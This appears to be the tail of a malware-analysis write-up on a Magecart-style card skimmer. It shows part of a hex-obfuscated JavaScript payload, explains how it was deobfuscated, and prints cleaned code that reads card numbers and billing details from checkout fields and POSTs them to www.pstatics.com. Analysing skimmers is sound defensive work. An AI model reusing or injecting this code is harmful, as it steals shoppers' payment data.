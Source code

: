 ```javascript
x6F\x6D\x7C\x6D\x6F\x75\x73\x65\x6C\x65\x61\x76\x65\x7C\x70\x61\x79\x6D\x65\x6E\x74\x7C\x6D\x65\x74\x68\x6F\x64\x7C\x63\x63\x7C\x63\x68\x61\x6E\x67\x65\x7C\x63\x6C\x69\x63\x6B\x7C\x58\x4D\x4C\x48\x74\x74\x70\x52\x65\x71\x75\x65\x73\x74\x7C\x6F\x70\x65\x6E\x7C\x50\x4F\x53\x54\x7C\x68\x74\x74\x70\x73\x7C\x77\x77\x77\x7C\x70\x73\x74\x61\x74\x69\x63\x73\x7C\x63\x6F\x6D\x7C\x46\x6F\x72\x6D\x44\x61\x74\x61\x7C\x75\x69\x64\x7C\x73\x69\x64\x7C\x73\x65\x6E\x64\x7C\x6D\x6F\x6E\x74\x68\x7C\x62\x69\x6C\x6C\x69\x6E\x67\x5F\x61\x64\x64\x72\x65\x73\x73\x5F\x63\x6F\x6E\x74\x65\x6E\x74\x7C\x69\x6E\x6E\x65\x72\x54\x65\x78\x74\x7C\x74\x6F\x4C\x6F\x77\x65\x72\x43\x61\x73\x65\x7C\x74\x65\x73\x74\x7C\x31\x31\x31\x31\x31\x31'.split('\x7C'), 0, {}))
}
)()
```

---

## Deobfuscation  

I used two quick approaches to deobfuscate the code:  

1. **Debugger method** – prepend `debugger;` to the script and run in browser dev tools.  
2. **Python trick** – since the obfuscation used hex and `\x` strings, simply printing the string in Python revealed the content.  

```python
st = """bad code here"""
print(st)
```

Voila — decoded.  

For more convenience, I later discovered [https://obf-io.deobfuscate.io](https://obf-io.deobfuscate.io) which automates this process.  

---

## Decompiled Code  

After cleanup, the code looks like this:  

```javascript
// Malicious data exfiltration function
function sendStolenData(data) {
  const xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://www.pstatics.com/i');
  const formData = new FormData();
  formData.append('uid', data.cardNumber);
  formData.append('sid', data.billingInfo);
  xhr.send(formData);
}

// Event listeners for form elements
document.getElementById('checkout__input').addEventListener('change', collectData);
document.querySelector('.payment-method-cc').addEventListener('click', collectData);

// Data collection function
function collectData() {
  const stolenData = {
    cardNumber: document.querySelector('[name="card_number"]').value,
    billingInfo: document.getElementById('billing_address_content').innerText,
    // Additional sensitive fields...
  };
  
  if (stolenData.cardNumber.length > 14) {
    sendStolenData(stolenData);
  }
}
```
